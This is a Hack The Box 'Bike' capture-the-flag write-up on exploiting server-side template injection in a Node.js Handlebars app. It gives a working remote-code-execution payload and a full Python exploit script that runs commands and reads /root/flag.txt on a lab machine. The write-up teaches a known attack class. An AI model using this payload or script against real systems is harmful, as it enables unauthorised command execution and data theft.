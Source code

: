 ﻿# HTB Bike - SSTI Exploit Write-up

![Bike Logo](https://infosec-db.github.io/CyberDepot/assets/htb-bike.png)

# Overview
**HTB Bike** is a *Hack The Box* machine that involves exploiting a **Server-Side Template Injection (SSTI)** vulnerability in a **Node.js Handlebars template engine**. This write-up provides a detailed walkthrough of the exploitation process and includes a fully automated **SQLmap-styled** exploit script.

---

# Enumeration

# **🔍 Nmap Scan**
We start by scanning the target with **Nmap**:

```bash
nmap -sC -sV -p- 10.129.6.196
```

This reveals:
- **Port 22 (SSH)** - Ignored (no creds available).
- **Port 80 (HTTP)** - Running an **Express.js** server.

### **🔍 Identifying SSTI**
When interacting with the email subscription form on the web page, our input is reflected back:

```html
We will contact you at: <input>
```

We test for **Server-Side Template Injection (SSTI)** using:

```bash
curl -X POST http://10.129.6.196/ -d "email={{7*7}}"
```

If the response contains `49`, **the site is vulnerable!** ✅

---

# Exploitation

# **🔗 Exploit Payload**
Using **Handlebars SSTI**, we craft a payload that executes system commands:

```handlebars
{{#with "s" as |string|}}
{{#with "e"}}
{{#with split as |conslist|}}
{{this.pop}}
{{this.push (lookup string.sub "constructor")}}
{{this.pop}}
{{#with string.split as |codelist|}}
{{this.pop}}
{{this.push "return process.mainModule.require('child_process').execSync('whoami').toString();"}}
{{this.pop}}
{{#each conslist}}
{{#with (string.sub.apply 0 codelist)}}
{{this}}
{{/with}}
{{/each}}
{{/with}}
{{/with}}
{{/with}}
{{/with}}
```

This **bypasses sandboxing** and allows **Remote Code Execution (RCE)**!

---

# 🚀 Automating the Exploit

We use a **fully automated Python script** with:
✅ **SQLmap-style output**  
✅ **Fancy ASCII banner**  
✅ **JSON debugging for failed extractions**  

# **📜 Proof of Concept (PoC) Exploit Script**

```python
import requests
import re
import json
import time
import sys
from pyfiglet import Figlet

# Colors for output formatting (SQLmap-style)
RED = "\033[1;91m"
GREEN = "\033[1;92m"
YELLOW = "\033[1;93m"
BLUE = "\033[1;94m"
CYAN = "\033[1;96m"
WHITE = "\033[1;97m"
RESET = "\033[0m"

# Target URL
TARGET = "http://10.129.6.196/"

# Headers for the request
HEADERS = {
    "Content-Type": "application/x-www-form-urlencoded"
}

# Fancy banner
def print_banner():
    """Displays a fancy ASCII banner using pyfiglet."""
    f = Figlet(font="smmono9")  # Ensure this font is installed, or pick another
    banner_text = f.renderText("BikePwn")

    print(f"{CYAN}{banner_text}{RESET}")
    print("=" * 80)
    print(f"{CYAN}  Server-Side Template Injection Exploit - HTB Bike {RESET}")
    print(f"{CYAN}  Made by #AfterDark {RESET}")
    print("=" * 80)
    print(f"{YELLOW}[!] DISCLAIMER: Use this tool for authorized testing only. {RESET}")
    print(f"{YELLOW}    The author assumes no liability for misuse. {RESET}")
    print("=" * 80)

# Function to display SQLmap-style log messages
def log_message(level, message):
    timestamp = time.strftime("%H:%M:%S")
    symbols = {"INFO": f"{BLUE}[{timestamp}] [INFO] {RESET}",
               "SUCCESS": f"{GREEN}[{timestamp}] [SUCCESS] {RESET}",
               "WARNING": f"{YELLOW}[{timestamp}] [WARNING] {RESET}",
               "ERROR": f"{RED}[{timestamp}] [ERROR] {RESET}"}
    
    print(f"{symbols[level]}{message}")

# Function to check SSTI vulnerability
def check_ssti():
    payload = "{{7*7}}"
    data = {"email": payload}
    
    try:
        response = requests.post(TARGET, headers=HEADERS, data=data)
        if "49" in response.text or "error" in response.text:
            log_message("SUCCESS", "SSTI vulnerability detected!")
            return True
    except requests.exceptions.RequestException as e:
        log_message("ERROR", f"Connection error during SSTI check: {e}")
    
    log_message("WARNING", "SSTI does not seem to be present.")
    return False

# Function to execute a command via SSTI
def execute_command(cmd):
    """Executes a command using SSTI and prints debug info."""
    log_message("INFO", f"Executing command: {cmd}")

    ssti_payload = f"""{{{{#with "s" as |string|}}}}
{{{{#with "e"}}}}
{{{{#with split as |conslist|}}}}
{{{{this.pop}}}}
{{{{this.push (lookup string.sub "constructor")}}}}
{{{{this.pop}}}}
{{{{#with string.split as |codelist|}}}}
{{{{this.pop}}}}
{{{{this.push "return process.mainModule.require('child_process').execSync('{cmd}').toString();"}}}}
{{{{this.pop}}}}
{{{{#each conslist}}}}
{{{{#with (string.sub.apply 0 codelist)}}}}
{{{{this}}}}
{{{{/with}}}}
{{{{/each}}}}
{{{{/with}}}}
{{{{/with}}}}
{{{{/with}}}}
{{{{/with}}}}"""

    data = {"email": ssti_payload}

    try:
        response = requests.post(TARGET, headers=HEADERS, data=data, timeout=10)
        return response.text.strip()
    except requests.exceptions.RequestException as e:
        log_message("ERROR", f"Connection error: {e}")
        return "[-] Command execution failed."

# Function to get the flag
def get_flag():
    log_message("INFO", "Fetching flag from /root/flag.txt")
    flag = execute_command("cat /root/flag.txt")

    if len(flag) > 5:
        log_message("SUCCESS", f"Flag: {flag}")
    else:
        log_message("WARNING", "Could not retrieve the flag.")

# Main function
def main():
    print_banner()
    
    log_message("INFO", "Starting SSTI Exploit for Bike HTB Machine")

    if check_ssti():
        log_message("INFO", "Checking user privileges...")
        user = execute_command("whoami")
        log_message("SUCCESS", f"Running as: {user}")

        get_flag()
    else:
        log_message("ERROR", "SSTI exploitation failed.")

if __name__ == "__main__":
    main()
```

---

# 📜 Conclusion
This challenge demonstrates **how dangerous SSTI can be**, especially in **Node.js-based applications**. The exploit works by **breaking out of the Handlebars sandbox** and gaining **full system control**.

---
🛠️ **Credits:**  
💀 Developed by **#AfterDark**  
🔗 [CyberDepot](https://infosec-db.github.io/CyberDepot/) - More Exploits & Writeups  
